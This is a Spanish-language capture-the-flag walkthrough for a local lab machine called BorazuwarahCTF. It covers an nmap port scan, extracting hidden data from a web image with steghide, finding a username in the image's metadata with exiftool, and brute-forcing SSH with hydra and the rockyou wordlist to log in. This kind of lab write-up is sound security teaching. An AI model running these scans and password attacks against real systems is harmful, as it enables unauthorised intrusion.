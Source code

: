 
**Autor:** [BorazuwarahCTF

**Dificultad:** Muy Fácil

**Fecha de creación:** 28/05/2024


DESPLIEGUE

```
bash auto_deploy.sh borazuwarahctf.tar
```


![Img](./images/Pasted%20image%2020241106191136.png)






------------------------
PROCEDIMIENTO:

Tenemos la IP: 
```
172.17.0.2
```



---------------------------

RECONOCIMIENTO

```
nmap -p- -sS -sV -sC --min-rate 5000 -n -vvv -Pn 172.17.0.2
```

`-p-` ⮞ aplicar reconocimiento a todos los puertos  
`--open` ⮞ solo a los que estén abiertos  
`--min-rate 5000` ⮞ para enviar paquetes más rápido  
`-sS` ⮞ para descubrir puertos de manera silenciosa y rápida  
`-vvv` ⮞ conforme descubre un puerto nos lo muestra por pantalla  
`-n` ⮞ no aplica la resolución DNS (tarda mucho en el caso de que no pongamos dicho parámetro)  
`-Pn` ⮞ ignora si esta activa o no la IP  
`-oG` ⮞ exportamos el resultado en formato grepeable (para extraer mejor los datos con herramientas como grep, awk)


![Img](./images/Pasted%20image%2020240917192325.png)


Nos vamos a la página web y nos sale :

![Img](./images/Pasted%20image%2020240917193213.png)

Nos descargamos la imagen y veremos si tiene algún archivo oculto. Haremos el siguiente comando:

```
steghide extract -sf imagen.jpeg
```

![Img](./images/Pasted%20image%2020240917193813.png)


```
cat secreto.txt
```

![Img](./images/Pasted%20image%2020240917193842.png)


Lo cual nos da una pista. Buscaremos  más información dentro de esta imagen como son los metadatos , usaremos `exiftool`, por lo cual usando el comando 

```
exiftool imagen.jpeg
```
![Img](./images/Pasted%20image%2020240917194039.png)

Y ahí tenemos un usuario `borazuwarah`

Ahora fuerza bruta. 

```
hydra -l borazuwarah -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
![Img](./images/Pasted%20image%2020240917194231.png)

```
ssh borazuwarah@172.17.0.2
```
![Img](./images/Pasted%20image%2020240917194342.png)


Y ya estamos adentro. 
